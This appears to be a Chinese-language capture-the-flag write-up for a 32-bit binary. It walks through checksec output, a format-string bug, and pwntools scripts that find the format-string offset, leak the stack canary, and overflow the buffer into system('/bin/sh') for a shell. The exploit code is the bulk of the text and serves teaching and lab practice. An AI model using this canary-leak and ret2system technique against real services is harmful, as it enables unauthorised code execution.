




## 文件检查
```shell
file test
checksec test
```




32位程序，开了NX,Canary防护，然后将文件仍到IDA里面，按F5查看伪代码



程序要求输入密码，用 的是strcmp进行检查，如果密码等于strcmp，则进入Addsecret函数


这边的print函数很明显存在格式化字符串漏洞
一般格式化字符串漏洞的攻击流程是
1.先找到泄漏地址的位数
2.leak puts函数的puts_addr


任意地址读我们需要用到printf格式化字符串的另外一个特性，”$“操作符。这个操作符可以输出指定位置的参数。比如，通过修改偏移，可以遍历所有的地址



首先找到偏移的位数
```python
from pwn import *

for i in range(1, 100):
    conn = remote('127.0.0.1', 6080)

    conn.recvuntil("please input password:")
    conn.sendline("123456")
    conn.recvuntil("secret name:\n")
    payload1 = "AAAA%{num}$x".format(num=i)
    conn.sendline(payload1)
    data = conn.recv()

    if "414141" in data: #41是A的ascii编码
        print(i)
        break

```

知道偏移数是18

需要注意的是pwn的elf.symbols[**'system'**] 对应于IDA的.text区域
pwn的elf.got[**'system'**] 对应于IDA的.got区域


最后的代码
```python
from pwn import *

slog=0
local=0
debug=0
if slog:
        context.log_level=True
if local:
	p=process('./pwn')
else:
	ip='127.0.0.1'
	port=6080
	p=remote(ip,port)
if local and debug:
	gdb.attach(p,open('debug'))
#exp
p.recvuntil("password:")
p.sendline("123456")
p.recvuntil("name:")
p.sendline('%43$x')
p.recvline()
canary='0x'+p.recv(8)
sys=0x8048670
binsh=0x804A044
p.recvuntil("text:")
payload=0x96*'a'+p32(int(canary,16))+0xc*'a'+p32(sys)+'junk'+p32(binsh)
p.send(payload)
p.interactive()

```
